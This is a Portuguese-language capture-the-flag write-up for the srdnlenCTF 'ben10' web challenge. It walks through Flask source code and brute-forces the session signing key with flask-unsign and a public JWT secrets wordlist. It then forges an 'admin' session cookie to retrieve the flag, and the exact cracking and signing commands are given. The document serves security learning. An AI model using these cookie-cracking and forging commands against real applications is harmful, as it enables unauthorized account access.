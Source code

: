 # srdnlenCTF: ben10

**Categoria**: Web Exploitation\
**Dificuldade**: Facil (minha opiniao)

---

## Solução

### 1. Análise inicial

Ao acessar o site, vemos uma pagina de login com inputs para acessar logar, criar conta e ir para opcao de "Forgot Password"

![Imagem 1: Pagina de login](./assets/login_page.png)

---

### 2. Analisando o codigo 

O codigo da aplicacao web foi disponibilizado no desafio, bati o olho nas paginas estaticas e nao achei nada muito interessante, mas no codigo do backend que foi feito em Python usando o framework Flask, achei alguns metodos. E entre eles achei o seguinte metodo:

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
@app.route('/image/<image_id>')
def image(image_id):
    """Display the image if user is admin or redirect with missing permissions."""
    if 'username' not in session:
        return redirect(url_for('login'))

    username = session['username']

    if image_id == 'ben10' and not username.startswith('admin'):
        return redirect(url_for('missing_permissions'))

    flag = None
    if username.startswith('admin') and image_id == 'ben10':
        flag = FLAG

    return render_template('image_viewer.html', image_name=image_id, flag=flag)
```

{% endcode %}

Logo, percebi que esse era o metodo que eu deveria usar para pegar a flag. Se analisarmos o codigo vemos que ele pega os **cookies** da sessao para pegar o **username** e faz verificacoes a partir daquele **username**. Entao basta eu conseguir manipular esse username para conseguir capturar a flag! No codigo diz que para pegar a flag o **image_id** precisa ser 'ben10' e o **username** precisa comecar com 'admin'. 

Ao procurar o trecho de codigo que consigo manipular esse dado achei o seguinte metodo:

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
@app.route('/register', methods=['GET', 'POST'])
def register():
    """Handle user registration."""
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']

        if username.startswith('admin') or '^' in username:
            flash("I don't like admins", "error")
            return render_template('register.html')

        if not username or not password:
            flash("Both fields are required.", "error")
            return render_template('register.html')

        admin_username = f"admin^{username}^{secrets.token_hex(5)}"
        admin_password = secrets.token_hex(8)

        try:
            conn = sqlite3.connect(DATABASE)
            cursor = conn.cursor()
            cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (username, password, admin_username))
            cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (admin_username, admin_password, None))
            conn.commit()
        except sqlite3.IntegrityError:
            flash("Username already exists!", "error")
            return render_template('register.html')
        finally:
            conn.close()

        flash("Registration successful!", "success")
        return redirect(url_for('login'))

    return render_template('register.html')
```

{% endcode %}

Como podemos ver, esse metodo eh para criar usuarios, voce passa o **username** e a **password** e ele insere esse usuario no banco de dados para poder fazer login posteriormente. A principio pensei em **SQLInjection**, porem ele estava usando o "?" na query e passando como parametro, assim o **SQLInjection** se torna incabivel (caso queria saber como me chame q eu explico ;) ).

Continuando... O problema aqui esta no seguinte trecho:

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
if username.startswith('admin') or '^' in username:
    flash("I don't like admins", "error")
    return render_template('register.html')
```

{% endcode %}

Onde nos proibe de criar um usuario que inicie com **admin**, porem eh essencial para conseguirmos capturar a flag no metodo 'image/image_id' mostrado anteriormente.

Logo, a unica opcao que nos resta eh manipular o **session cookie** que eh verificado no metodo que retorna a flag, ou seja, precisamos criar um usuario normal (ex: brg:brg) e apos fazer login com esse usuario, manipular o seu cookie, aqui esta uma imagem do meu navegador com o cookie apos eu logar como brg:brg

![Imagem 2: Print do cookie](./assets/cookie.png)


### 3. Quebrando o cookie

O meu cookie eh

```
eyJ1c2VybmFtZSI6ImJyZyJ9.Z5f78g.uvTa-33GRRZ-Q3FHn80V6p0D4kY
```

Posso simplesmente decodificar o Base64, mas optei por usar o [jwt.io](https://jwt.io):

![Imagem 3: Print do jwt.io](./assets/jwt.png)

Com isso consigo ver que existe o valor do meu **username**, mas para manipula-lo eu preciso re-assinar o JWT novamente para funcionar. Achei [isso](https://stackoverflow.com/questions/77340063/flask-session-cookie-tampering) no StackOverflow mostrando como usar a ferramenta **flask-unsign** do python, que basicamente faz um **brute force** para tentar achar a chave que foi usada para assinar aquele JWT.

Pesquisando uma boa lista para poder rodar o brute force, achei [essa](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list) no github com uma quantidade consideravel de strings. 

Enfim, rodei o seguinte comando:

```bash
flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImJyZyJ9.Z5f78g.uvTa-33GRRZ-Q3FHn80V6p0D4kY' --no-literal-eval -w jwt.secrets.list   
```

e com isso consegui descobrir que a chave usada eh:

```
your_secret_key
```

Agora acabou, so preciso mudar o Json e assina-lo com a chave secreta descoberta, usei o seguinte comando:

```bash
flask-unsign --sign --cookie "{'username':'admin'}" --secret 'your_secret_key'
```

e pronto!

peguei o JWT retornado e substitui na sessao do meu navegador, e acessei o seguinte metodo 'image/ben10' e la estava a **flag**

```
srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```

---

## Autor da WriteUp

[Membro de Networking - leandrobalta](https://github.com/leandrobalta)